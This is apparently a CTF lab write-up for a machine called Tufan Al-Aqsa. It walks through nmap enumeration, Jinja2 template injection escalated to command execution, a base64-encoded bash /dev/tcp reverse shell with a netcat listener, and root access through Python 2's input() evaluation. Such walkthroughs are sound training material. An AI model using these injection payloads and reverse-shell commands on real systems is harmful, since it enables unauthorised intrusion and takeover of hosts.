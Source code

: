 ```yaml
---
title: Tufan Al-Aqsa Machine Write up
categories: [Write-ups, MachinesCTF]
tags: [CTF,Pentesting]     # TAG names should always be lowercase
comments: false
published: true
render_with_liquid: false
img_path: /assets/img/machinesCTF/Tufan-Al-Aqsa/
---
```


# **Tufan Al-Aqsa**

![Untitled](Untitled.png)

IP: 10.0.0.133

## **Enumeration**
We start by scanning the machine with nmap.

Discover all open ports:

![Untitled](Untitled%201.png)

Check what is exactly running on these ports:

![Untitled](Untitled%202.png)

## **Foothold**

There is python web application running on port 80.

Visiting it we get:

![Untitled](Untitled%203.png)

If we try to inspect the source code, surprisingly we cant!

Trying to check robots.txt file

![Untitled](Untitled%204.png)

We get this error page, and we notice that the file name is displayed in the error message.

Since it is a python web server it may be vulnerable to SSTI.

So to check we try the famous `{{7* 7}}` SSTI payload.

![Untitled](Untitled%205.png)

As we can see it returned 49 which proves that it is vulnerable.

So we now try to find a [payload](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) that can lead to RCE and then get a reverse shell.

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![Untitled](Untitled%206.png)

We have successfully run `id` command.

**For reverse shell:**

First we set up a listener:

```bash
nc -nvlp 1234
```

![Untitled](Untitled%207.png)

Then we get a reverse shell payload: (you can use https://www.revshells.com/ to generate one)

```bash
/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1
```

Encode it with bsae64

```bash
echo '/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1' | base64 
```

![Untitled](Untitled%208.png)

```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg==
```

This will echo the command, decode it and run it. This way we wont face any problems running commands.

```python
http://10.0.0.133/{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg== | base64 -d | bash').read()}}
```

And we get the reverse shell

![Untitled](Untitled%209.png)

We can find the user.txt flag inside the home directory for the user zoznoor23. 🇵🇸

![Untitled](Untitled%2010.png)

## **Privilege Escalation**
Running `sudo -l` to check what the user zoznoor23 can run using sudo.

![Untitled](Untitled%2011.png)

So the user zoznoor23 can run python2 on /opt/i_dont_trust_sudo.py as root.
Let us try running it:

![Untitled](Untitled%2013.png)

It asks for a password, but we do not have any.

Let us read the file to understand how it works, or to get a clue about what the password is.

![Untitled](Untitled%2012.png)

So bsically the code reads a password form /root/password.txt, and check if our input matches the password, then it will run /bin/bash giving us a shell as root.

Since we did not found any clue, we should look somewhere else.

What is interesting here is that it is using python 2, whihle python3 exists on the machine which is weried.

Searching for python 2 vulnerabilities we find that the input() function in python2 is  vulnerable.

The vulnerability in input() method lies in the fact that the variable accessing the value of input can be accessed by anyone just by using the name of the variable or method. Below are some vulnerability in input() method:
- Variable name as input parameter
- Function name as parameter

[Read about the vulnerability.](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)


So in our case we just need to provide `secure_password` as our input, and we now we got a shell as root.

![Untitled](Untitled%2014.png)

Now we can go to the home directory for the root user and read root.txt flag.

![Untitled](Untitled%2015.png)
